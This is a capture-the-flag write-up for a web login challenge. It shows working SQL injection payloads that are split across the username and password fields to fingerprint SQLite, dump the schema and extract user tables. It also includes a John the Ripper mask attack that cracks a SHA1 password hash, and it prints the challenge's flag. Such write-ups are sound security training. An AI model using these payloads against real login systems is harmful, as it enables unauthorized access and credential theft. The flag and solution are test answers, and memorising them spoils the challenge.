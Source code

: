 ```yaml
---
created: 2025-06-06T18:16
updated: 2025-06-08T12:05
solves: 29
points: 479
---
```


I figured out that the server is running `sqlite` because the following works.

```python
username = f"admin'  AND sqlite_version()='1' /*"
password = "*/ AND '1'='1"
```

While the postgres version failed with an error.

```python
username = f"admin'  AND pg_backend_pid()='1' /*"
password = "*/ AND '1'='1"
```

After quite a while of experimenting, I finally got the server to return information to me.

The trick is to quote my dummy values into `'1'`, without it for some reason it won't work.

```python
username = f"admin' UNION SELECT sql,'1','1' FROM sqlite_master; /*"
password = "*/ AND '1'='1"
```

From here on its just normal SQL stuff.

We have 2 tables.

```html
<h4>Username: CREATE TABLE database(user varchar(255), pass varchar(255), time INT), Password (hashed): 1, 1 hours passed on this site.
Username: CREATE TABLE stats(user varchar(255), pass varchar(255), time INT), Password (hashed): 1, 1 hours passed on this site.
</h4>
```

## database table

```python
username = f"admin' UNION SELECT user,pass,time FROM database; /*"
password = "*/ AND '1'='1"
```

Seems like these are password hashes.

```html
<h4>Username: You, Password (hashed): 6b5f8e745378e0fc64ce20dc041974b05bf5c1cc, 500 hours passed on this site.
Username: humanA, Password (hashed): 9aa888e9ad7f219a13348362b4df4e41da33cb48, 2147483647 hours passed on this site.
Username: test, Password (hashed): 9a23b6d49aa244b7b0db52949c0932c365ec8191, 0 hours passed on this site.
Username: tuxtheflagmasteronlylikeslowercaseletters, Password (hashed): 64b7c90a991571c107cc663aa768514822896f49, 20 hours passed on this site.
</h4>
```

## stats table

```python
username = f"admin' UNION SELECT user,pass,time FROM stats; /*"
password = "*/ AND '1'='1"
```

And these are... plaintext passwords? except for `TuxTheFlagMaster`.

```html
<h4>Username: TuxTheFlagMaster, Password (hashed): 678a88c06eac9775545a26e33cbfacf1bcb2c7f559dfa95055d167117e529a29, 20 hours passed on this site.
Username: You, Password (hashed): ILOVEPENGUINS1234567890, 500 hours passed on this site.
Username: humanA, Password (hashed): definitelyARealHuman, 2147483647 hours passed on this site.
Username: test, Password (hashed): testPass, 0 hours passed on this site.
</h4>
```

## the hashes

Through guess and check using the password hash pairs, I confirmed that the hash are SHA1 hashes.

```
text -> hash (SHA1)
ILOVEPENGUINS1234567890 -> 6b5f8e745378e0fc64ce20dc041974b05bf5c1cc
definitelyARealHuman -> 9aa888e9ad7f219a13348362b4df4e41da33cb48
testPass -> 9a23b6d49aa244b7b0db52949c0932c365ec8191

??? -> 64b7c90a991571c107cc663aa768514822896f49
```

So now we need to find `x` such that `SHA(x) = 64b7c90a991571c107cc663aa768514822896f49`. (which is TuxTheFlagMaster's password)

```bash
echo "64b7c90a991571c107cc663aa768514822896f49" > sha1hash.txt

...# trying different lengths

john --format=raw-sha1 --mask='[a-z][a-z][a-z][a-z][a-z][a-z][a-z]' sha1hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
allsgud          (?)     
1g 0:00:00:36 DONE (2025-06-06 19:54) 0.02730g/s 31871Kp/s 31871Kc/s 31871KC/s yklsgud..fllsgud
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

The password is `allsgud`, which is not the flag.

But after logging in, the flag is there!

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1749254320/2025/06/cac39f95673e4b93b867e6a627e9e5a3.png)

```flag
tjctf{3verth1ng_i5_fin3}
```

